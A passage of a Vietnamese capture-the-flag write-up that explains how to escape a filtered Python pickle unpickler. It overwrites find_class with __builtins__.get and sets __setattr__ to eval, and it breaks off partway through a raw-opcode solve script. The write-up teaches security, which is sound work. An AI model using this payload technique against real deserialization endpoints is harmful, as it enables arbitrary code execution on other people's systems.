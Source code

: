 ![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/628251b7-27b6-44e4-895f-b54e0402d862)

Lưu ý là vì ban đầu lúc push `__main__` thì ta chưa pop ra nên tại dòng số 26 khi build thì object được dùng sẽ là chính `__main__`, opcode `BUILD` ở dòng 26 là để trigger payload sau khi đã ghi đè `__setstate__`, `called` chính là `state`

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/fbf89832-2e1e-4328-b246-8a83b7ee2641)

Lúc này ta đã gọi được `print("called")`, nhưng ta không thể gọi `eval` hay `exec` gì được vì đã filter tại `find_class`

### Overwrite the world

Nếu ta có thể overwrite được `__setstate__`, vậy liệu ta có thể overwrite được `find_class` của `SecureUnpickler` không? Nếu vậy ta sẽ overwrite nó bằng cái gì? Đó chính là method `get` của `__builtins__`

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/8f5c22e2-1edf-4ecb-9168-37e988bf23f2)

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/9b2288d5-6c33-4b58-9ea5-a61b56b64162)

Method này sẽ cho phép ta lấy attribute từ 1 dict, mỗi khi `GLOBAL` dispatcher trong `_Unpickler` được gọi thì nó sẽ dùng method này để tìm đến `attribute` trong modules tương ứng và đưa vào stack

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/1d3b43ba-cb7f-487a-b92e-2eae3d45bd61)

Oke vậy tất cả mảnh ghép đã có đủ, flow cuối cùng sẽ như sau:
- Lấy method `get` của `__builtins__` để ghi đè `find_class` của `SecureUnpickler`
- Ghi đè `__setattr__` của `__main__` thành `eval`
- Trigger `__setstate__` với `state` là code python để chạy eval

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/21464992-11cf-401f-9ad7-579f5f2b37bb)

Phần này mình không giải thích kỹ để các bạn có thể tự giải và hiểu hơn về pickle

Đây là script giải để các bạn tham khảo
```py 
from pwn import *
import pickletools


data = pickle.PROTO + bytes([5])

data += pickle.GLOBAL + b"__main__\n__main__\n"
data += pickle.BINPUT + bytes([1]) # save __main__ to memo[1]
data += pickle.POP

data += pickle.GLOBAL + b"__main__\nSecureUnpickler\n" 
data += pickle.BINPUT + bytes([2]) # save SecureUnpickler to memo[2]
data += pickle.POP

data += pickle.GLOBAL + b"__main__\n__main__\n"

data += pickle.MARK
data += pickle.STRING + b"'__main__'\n"
data += pickle.GLOBAL + b"__main__\n__builtins__\n"
data += pickle.DICT
data += pickle.BUILD

data += pickle.GLOBAL + b"__main__\nget\n"
data += pickle.BINPUT + bytes([3]) # save get to memo[3]
data += pickle.POP

# SecureUnpickler.find_class = __builtins__.get
data += pickle.BINGET + bytes([2])
```